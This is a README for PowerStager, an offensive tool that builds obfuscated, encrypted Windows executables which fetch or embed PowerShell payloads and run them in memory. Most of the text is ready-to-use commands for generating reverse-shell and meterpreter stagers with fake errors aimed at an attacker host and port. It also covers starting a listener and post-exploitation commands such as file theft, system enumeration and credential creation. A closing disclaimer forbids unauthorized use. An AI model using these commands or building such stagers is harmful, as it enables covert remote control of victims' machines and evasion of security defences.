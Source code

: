 PowerStager: This script creates an executable stager that downloads a selected powershell payload.
===================================================================================================

Sneak Peek
----------
An update to PowerStager is on it's way. Here is a short sneak peek:

[![powerstager sneak peek](https://d1ckdm8qo2u5d0.cloudfront.net/ai/videos/15651711/thumb-160x.jpg?v2r1495997991)](https://vid.me/A2N7 "powerstager sneak peek - Click to Watch!")

Contact
-------
* Author: z0noxz
* Source: https://github.com/z0noxz/powerstager
* Email: z0noxz@mail.com

Description
-----------
This script creates an executable stager that downloads a selected powershell payload, loads it into memory and executes it using obfuscated EC methods. The script will also encrypt the stager for dynamic signatures and some additional obfuscation.

This enables the actual payload to be executed indirectly without the victim downloading it, only by executing the stager. The attacker can then for example implement evasion techniques on the web server, hosting the payload, instead of in the stager itself.

Additional methods allows the payload to be embedded into the 'stager' and temporarily stored encrypted on disk for memory injection.

Not only are powershell powerful when managing Windows, it's also powerful when exploiting Windows. This script exploits multiple Windows features such as its inherit trust of powershell, interpretation of shorthand syntaxes, code evaluation and more...

Demo
----
[![powerstager demo](https://d1ckdm8qo2u5d0.cloudfront.net/ai/videos/15651711/thumb-160x.jpg?v2r1495997991)](https://vid.me/Tfzr "powerstager demo - Click to Watch!")

How to use
----------

Prerequisites:

	python3
	python3-setuptools
	i686-w64-mingw32-gcc
	x86_64-w64-mingw32-gcc
	i686-w64-mingw32-windres
	x86_64-w64-mingw32-windres
	
Prerequisites (python3 modules):

	os
	sys
	getopt
	glob
	socket
	fcntl
	errno
	string
	re
	random
	base64
	datetime
	time
	hashlib
	readline
	signal
	urllib
	names

Install it:

	git clone https://github.com/z0noxz/powerstager
	cd powerstager
	sudo ./setup.py install

Generate a reverse shell payload to upload:

	powerstager --target win64 \
	--reverse-shell \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--generate \
	--output out.ps1
	
	powerstager --target win64 \
	--url <url pointing the the uploaded payload> \
	--output out.exe

Generate an embedded reverse shell payload, with obfuscation and fake-error:

	powerstager --target win64 \
	--reverse-shell \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--obfuscation \
	--fake-error \
	--output out.exe

Generate a meterpreter payload to upload:

	powerstager --target win64 \
	--meterpreter \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--generate \
	--output out.ps1
	
	powerstager --target win64 \
	--url <url pointing the the uploaded payload> \
	--output out.exe

Generate an embedded meterpreter payload, with obfuscation and fake-error:

	powerstager --target win64 \
	--meterpreter \
	--lhost 13.37.13.37 \
	--lport 4444 \
	--obfuscation \
	--fake-error \
	--output out.exe

Generate an embedded custom payload:

	powerstager --target win64 \
	--path input.ps1
	--output out.exe

Open a reverse shell listener:

	powerstager --listener \
	--lport 4444

Reverse shell listener commands:
* Local-Invoke
  *Invokes powershell script files from host*

* Local-Import-Module
  *Imports powershell modules from host*

* Local-Set-Width
  *Changes the buffer width on remote client*

* Local-Upload
  *Uploads files from host*

* Local-Download
  *Downloads files from client*

* Local-Download-Commands
  *Downloads available powershell commands from client*

* Local-Enumerate-System
  *Runs enumeration scripts on client*

* Local-Check-Status
  *Collects user and privilage status from client*

* Local-Spawn-Meterpreter
  *Spawns meterpreter shells on client*

* Local-Spawn-Reverse-Shell
  *Spawns reverse shells on client*

* Local-Credential-Create
  *Creates credentials on client*

* Local-Credential-List
  *Lists created credentials on client*


## DISCLAIMER:
You shall not misuse this tool to gain unauthorized access. This tool should only be used to expand knowledge, and not for causing malicious or damaging attacks. Performing any attacks without written permission from the owner of the system is illegal.
